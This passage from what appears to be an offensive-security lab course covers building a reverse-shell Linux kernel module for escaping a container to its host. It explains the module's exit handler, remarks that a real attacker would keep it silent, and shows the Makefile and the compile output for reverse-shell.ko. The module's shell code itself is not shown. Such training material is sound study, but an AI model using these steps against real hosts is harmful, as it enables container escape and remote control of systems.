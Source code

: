 Once the initialization is complete, we need to specify how the module should exit. Without this, we would need to _reboot_ the host to unload the module. On lines 14-17 we have the _kill_listener_ function, which will print a message that we're exiting. In the real-world, we probably would not print anything in order to stay more silent. However, logging does help us _debug_ exploits if needed. We'll specify that the _kill_listener_ function will be run on exit by passing it through the _module_exit_[3](https://portal.offsec.com/learning-paths/cloud-attacks-container-escapes-skill-path-178608/learning/container-escapes-interacting-with-the-host-51510/executing-commands-51564/labs-51511#fn-local_id_187-3) macro.

With the module code created, we need to compile it. For this, we'll create a _Makefile_, which will define the tasks to be executed for the compilation to succeed.

```
root@compiler:/exp# nano Makefile

root@compiler:/exp# cat -n Makefile
     1  obj-m +=reverse-shell.o
     2
     3  all:
     4          make -C /lib/modules/5.15.0-52-generic/build M=$(PWD) modules
     5
     6  clean:
     7          make -C /lib/modules/5.15.0-52-generic/build M=$(PWD) clean
```

> Listing 30 - Create the Makefile

We'll start by specifying the object file (**reverse-shell.o**) to output with the _obj-m_ variable. After linking the object file, the compiler will provide us with **reverse-shell.ko**, which will be the actual kernel module we'll load.

On line 3, we need to specify which objects to build. We are only trying to build the single object, so we'll target it with the **all** target.

On line 4, we'll specify the command to build the module. The **-C** argument specifies the _source of the kernel_, which matches the target's kernel, not our Kali kernel. The value of **M** specifies the _path of the directory_ where the builder can find the module. The **modules** keyword at the end is the target that indicates we want to build an external module.

Finally, the **clean** section is for us _to clear the directory_ in case we need to start over. If needed, we would run **make clean** to delete all generated files. This won't delete the **Makefile** or the **reverse-shell.c** file.

Now that we have our instructions, lets compile the module by running **make**.

```
root@compiler:/exp# make
make -C /lib/modules/5.15.0-52-generic/build M=/exp modules
make[1]: Entering directory '/usr/src/linux-headers-5.15.0-52-generic'
  CC [M]  /exp/reverse-shell.o
  MODPOST /exp/Module.symvers
  CC [M]  /exp/reverse-shell.mod.o
  LD [M]  /exp/reverse-shell.ko
  BTF [M] /exp/reverse-shell.ko
Skipping BTF generation for /exp/reverse-shell.ko due to unavailability of vmlinux
make[1]: Leaving directory '/usr/src/linux-headers-5.15.0-52-generic'

root@compiler:/exp# ls -alh
total 420K
drwxr-xr-x. 2 root root 4.0K Oct 20 21:50 .
dr-xr-xr-x. 1 root root   84 Oct 20 21:49 ..
-rw-r--r--. 1 root root  146 Oct 20 21:50 .Module.symvers.cmd
-rw-r--r--. 1 root root  104 Oct 20 21:50 .modules.order.cmd
-rw-r--r--. 1 root root  170 Oct 20 21:50 .reverse-shell.ko.cmd
-rw-r--r--. 1 root root   94 Oct 20 21:50 .reverse-shell.mod.cmd
-rw-r--r--. 1 root root  38K Oct 20 21:50 .reverse-shell.mod.o.cmd
-rw-r--r--. 1 root root  38K Oct 20 21:50 .reverse-shell.o.cmd
-rw-r--r--. 1 root root  162 Oct 20 21:50 Makefile
```